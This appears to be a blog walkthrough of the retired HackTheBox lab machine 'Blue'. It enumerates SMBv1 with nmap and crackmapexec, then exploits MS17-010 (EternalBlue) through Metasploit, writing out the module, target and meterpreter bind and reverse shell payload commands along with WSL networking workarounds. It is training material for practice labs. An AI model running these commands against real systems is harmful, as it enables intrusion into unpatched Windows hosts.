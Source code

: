 ```yaml
---
layout: post
title: Blue
meta: Okay in todays walkthrough we will be looking at the retired HackTheBox
  machine "Blue".
category: htb
image: card1-img.png
date: 2020-10-22T03:40:22.451Z
tags: " "
---
```

# Blue

Okay in todays walkthrough we will be looking at the retired HackTheBox machine "Blue". 

![](info-card.png)

Lets start out looking for open ports using the network mapper tool. 

We will run `nmap` with the default scripts, operating system version detection and traceroute `-A`. We will scan all ports `-p-` and we will turn off discovery `-Pn` as we know the host exists. 

![](nmap-scan.png)

So looks like we have a Windows box, Windows 7 Professional to be more exact. 

Lets just check that SMB version 1 has not been disabled. I like to use crackmapexec for this, I find it faster than nmap for this task. 

![](crackmapexec.png)

If we wanted to use nmap we could use the smb-protocols.nse script. 
```
sudo nmap -sT -Pn -p 445 --script=smb-protocols.nse 10.10.10.40
```

Here we can see the version of SMB supported. 

![](nmap-smb-protocols.png)

SMBv1 in use on a legacy Windows operating system screams check SMB vulnerabilities. We can run all of nmap smb scripts using globbing. If we enter `--script smb*` we will run all NSE scripts that start with smb. 

![](nmap-smb-scripts.png)

We have a confirmed vulnerability. To exploit we are going to use Metasploit. I am currently using version 2 of the WSL and so my interface out onto the network is currently NAT'ed. This means we wont be able to get reverse shells back without making amendments to the windows firewall using `netsh portproxy`. 

We start Metasploit with the following command as this commands ensures the database starts up before running the msfconsole. 
```
msfdb run
```

To exploit the box using Eternal Blue
```
use windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set payload windows/x64/meterpreter/bind_tcp
run
```

![](metasploit-module-options.png)

The below is the typical output that displays on the screen. 

![](meterpreter-shell.png)

We have a shell. Let us locate the user and admin/root flags. 

User flag

![](user-flag.png)

Root Flag

![](root-flag.png)

We mentioned that one of the limitations of using the WSLv2 is we are not able to get reverse shells without using the firewall as a proxy. 
```
netsh interface portproxy add v4tov4 listenport=<port windows host> listenaddress=<htb vpn> connectport=<wsl port> connectaddress=<wsl ip>
```

The older version of the WSL (version 1) utilised the network interfaces on the windows host. As a workaround we can set the version of the WSL in use on the machine to WSLv1 with the following command. 
```
wsl --set-version kali-linux 1
```

Just replace your machine name if it is not called "kali-linux" with the name of your machine. You can check out the name of you machine and its current version with the `wsl -l -v` command. 

![](wsl-set-kali-version1.png)

Now we can verify the version of the machine. 

![](wsl-l-v.png)

Now we can use a reverse shell. 

![](metasploit-module-options-reverse-shell.png)

This time you will see at the start of execution Metasploit "Started reverse TCP handler on 10.10.14.15:12345"

![](meterpreter-reverse-shell.png)



